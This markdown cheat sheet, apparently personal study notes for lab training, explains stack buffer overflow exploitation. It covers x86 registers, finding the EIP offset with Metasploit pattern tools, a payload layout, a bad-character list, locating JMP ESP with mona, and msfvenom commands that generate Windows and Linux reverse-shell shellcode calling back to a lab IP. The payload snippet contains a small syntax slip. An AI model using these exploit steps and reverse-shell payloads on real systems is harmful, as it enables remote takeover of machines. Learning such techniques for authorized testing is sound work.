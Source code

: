 # Buffer Overflow

### CPU Register

32-bit register:

* EAX (accumulator): Arithmetical and logical instructions
* EBX (base): Base pointer for memory addresses
* ECX (counter): Loop, shift, and rotation counter
* EDX (data): I/O port addressing, multiplication, and division
* ESI (source index): Pointer addressing of data and source in string copy operations
* EDI (destination index): Pointer addressing of data and destination in string copy operations
* EBP - The Base Pointer
* ESP - The Stack Pointer
* EIP - The Instruction Pointer

16-bit and 8-bit sub registers

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### Debug Tools

* Immunity Debugger (for Windows)
* EDB (for Linux)

### Exploit buffer overflow

#### Replicating the Crash and Control EIP

First, we need to determine the length that causes the crash by fuzzing the program. Then, instead of using A's to fill the buffer, we can use a non-repeating string:

```sh
msf-pattern_create -l 800
```

To finding the offset, we can use the following command (42306142 is value of EIP when the program crashes):

```sh
msf-pattern_offset -l 800 -q 42306142
```

Finally, we have a payload with structure:

```sh
filler = b"A" * 780 # To fill the buffer
eip = b"B" * 4 # To overwrite EIP
offset b= "C" * 4 # To overwrite the offset
nops = "\x90" * 100 
ourshell = b"D" * 500 # To overwrite the shellcode
```

### Checking for Bad Characters

Check for some characters that are considered "bad" and should not be used in our buffer:

```sh
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

HTTP, HTTPS bad characters: 0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, and 0x3D.

### Redirecting the Execution Flow

We need find a JMP ESP instruction in Windows in the program memory. Find libraries in Windows is a solution. But, address criteria:

* Must be static
* Must not contain any of the bad characters

#### Finding a Return Address

**On Immunity Debugger**

```sh
!mona modules
```

**On EDB**

Use OpcodeSearcher plugin

### Generating Shellcode

{% code overflow="wrap" %}
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
{% endcode %}

{% code overflow="wrap" %}
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode
```
{% endcode %}

\
